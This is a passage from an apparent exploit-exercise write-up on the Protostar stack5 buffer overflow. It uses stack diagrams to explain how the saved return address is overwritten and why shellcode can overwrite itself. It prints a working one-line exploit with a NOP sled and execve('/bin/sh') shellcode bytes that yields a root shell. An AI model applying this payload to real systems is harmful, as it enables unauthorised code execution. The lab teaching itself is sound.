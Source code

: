 <p>1) Before main() returns:</p>
<pre class="language-bash"><code>HIGH MEMORY ADDRESS

       &lt; -before overflow  -&gt;&lt;- after overflow -&gt;
       [ old EIP            ] &lt;- Address of buff 
EBP -&gt; [ old EBP            ] \
       [ buffer bytes 60-64 ]  |
       [ ...                ]  &gt; Shellcode
       [ buffer bytes 1 -4  ] /​
ESP -&gt; [ unassigned entry   ] 

LOW MEMORY ADDRESS</code></pre>
</td>
<td style="vertical-align: top;">
<p>2) ret is beeing run</p>
<ul>
<li>ESP is set to EBP</li>
<li>one stack element gets popped in EBP</li>
<li>one stack element gets popped in EIP</li>
</ul>
</td>
<td style="vertical-align: top;">
<p>3) After main() returns:</p>
<pre class="language-bash"><code>HIGH MEMORY ADDRESS

ESP -&gt; [ old EIP            ]
       [ old ESP            ] \
       [ buffer bytes 60-64 ]  |
       [ ...                ]  &gt; Shellcode
EIP -&gt; [ buffer bytes 1 -4  ] /

LOW MEMORY ADDRESS</code></pre>
</td>
</tr>
</tbody>
</table>
<p>Now our shellcode get's executed. But during execution it will push elements on the stack. And as you can see, ESP points before our shellcode. So the first push overrides the place we previously the old EIP was stored - nothing will happen. But the next push will override the end of our shellcode! When the execution reaches this position you will most likely get an illegal instruction.</p>
<p>Go and have a look how many push operations are done by our shellcode. It's going to be 5 times. So lets reserve space at the end of the buffer and try again. Of cause we need to substract the amound of chars reserved from our nop-sled and recalculate the middel of the sled to jump correctly.</p>
<pre class="language-bash"><code>$ # NOP*28 + shellcode + return Address
$ xploit=`python -c 'print "\x90"*29+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"AAAA"*4+"\xe7\xd0\xff\xff"'`
$ echo "Current process id is $$ and I am `whoami`"
Current process id is 30727 and I am &lt;user&gt;
$ { echo -e "$xploit"; echo "echo Process id now is $$ and I am \`whoami\`"​; cat -; } | ./stack5
# Enter whatever you like, you will have a root shell now.</code></pre>
<p></p>
<p>64 bytes is not very much for a nop-sled and might seam a bit odd (and yes it is!). In our example we have no boundry on the input. So we could have inputed 500 charactes instead of 72. What would have happended, if we wrote the nops and the shelcode starting at byte 72? In this case our shellcode would have landed somewhere in the previous frames before main(). This also means, that we would not had the problem with the self overwrites and we could even been even more inaccurate when guessing the right address "somewhere within the nop-sled". This is quite nice, multiplies the chance of a success and makes real use of the nop-sled! Stack starts at 0xffffe000, so with this much nops and such a short programm, you can guess the compleate address to "somewhere in the nop-sled". But offen you have a limited buffer and you would not have learned what those illegeal instructions come from.</p>
<p></p>

  [1]: https://exploit-exercises.com/protostar/stack0/
  [2]: https://exploit-exercises.com/protostar/stack2/
  [3]: https://en.wikipedia.org/wiki/Endianness
  [4]: https://exploit-exercises.com/protostar/stack3/
  [5]: https://exploit-exercises.com/protostar/stack4/